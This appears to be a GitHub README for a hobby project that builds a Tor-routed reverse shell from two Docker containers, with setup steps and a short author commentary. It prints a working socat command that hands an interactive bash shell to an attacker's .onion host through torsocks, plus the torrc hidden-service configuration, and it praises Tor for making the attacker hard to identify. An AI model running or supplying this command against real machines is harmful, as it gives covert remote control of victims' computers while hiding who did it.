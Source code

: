 <div align="center">
<img src="https://img.shields.io/badge/docker-%230db7ed.svg?style=for-the-badge&logo=docker&logoColor=white" alt="docker" />

<img src="https://img.shields.io/badge/tor-%237E4798.svg?style=for-the-badge&logo=tor-project&logoColor=white" alt="tor-web-server"/>

<img src="https://img.shields.io/badge/Ubuntu-E95420?style=for-the-badge&logo=ubuntu&logoColor=white" alt="ubuntu-linux"/>

<img src="" alt=""/>

</div>
<br/>
<br/>

## **💻 Project**

We created **_two containers_** in isolation that communicate with the **_Tor network_** forming a **_reverse shell_**. In this way, an attacker listens for connections from the Tor network while the victim's computer connects to the attacker.

<p align="center">
<img src="./assets/architecture.png" alt="architecture" width="700px"/>
</p>

To create the docker images we used [Ubuntu](https://ubuntu.com/) and installed [socat](https://linux.die.net/man/1/socat) and [tor](https://community.torproject.org/relay/setup/bridge/debian-ubuntu/) via apt-get as you can see in the dockerfiles. This project is the continuation of [this one](https://github.com/tpaphysics/reverse-shell).

## **🚀 Get Started**

First open a terminal instance and run the **_start_listen.sh_** script:

<p align="center">
<img src="./assets/listen-example.gif" alt="example-1"/>
</p>

Wait for Tor startup to reach 100%. Copy the script in yellow like the one generated in the image above.

Now open another instance of the terminal and run the **_start_rshell.sh_** script. After initialization, paste the script that was copied in the terminal and hit the enter key:

<p align="center">
<img src="./assets/rshell-example.gif" alt="example-2"/>
</p>

You can see that the attacker gets access to the victim computer.

## **🌐 Client explanation**

In order for the client to be able to make calls to the attacker, the rshell container needs to be on the tor network and execute the following command:

```bash
# example attacker host
ATTACKER_HOST=lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
ATTACKER_PORT=80

torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$ATTACKER_HOST:$ATTACKER_PORT
```

The **_torsocks_** command guarantees the the victim's ability to making calls to hosts on the Tor network.

## **🌐 Server explanation**

To create the server on the Tor network we must include the file **_torrc_** in the directory **_/etc/tor/_** this way we will get a host on the Tor network.

```bash
# torrc example
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:80
```

After starting the **_listen_** container you can see the host created by running the command:

```bash
docker exec -it listen cat /var/lib/tor/hidden_service/hostname

# out example
lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
```

Every call the victim makes to host `lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion` will be redirected to the **_socat_** server which is listening locally on port 80.

## **💥 Considerations**

There are many ways to create a reverse shell as you can see [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). We use socat because it's easy to create a reverse shell with interactive PTY and autocomplete. I'm not a racker and I'm far from it 😂. But some lamers out there make gigantic python scripts with interactive interfaces and lots of base 64 to do it. For a good lamer like me 😎, a sh terminal with busybox is enough. Using the Tor network to create a reverse shell makes it very difficult to identify the attacker. I could have used the **_alpine_** image instead of **_ubuntu_** to create the containers but there was a problem in socat and I was too lazy to do that 😅.

## **📚 References**

- [Van Houser](https://github.com/vanhauser-thc?tab=repositories)
- [Hackers-cheats](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

## **👨‍🚀 Author**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 My contacts!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## **📝 License**

This project has an MIT [license](LICENSE.md).
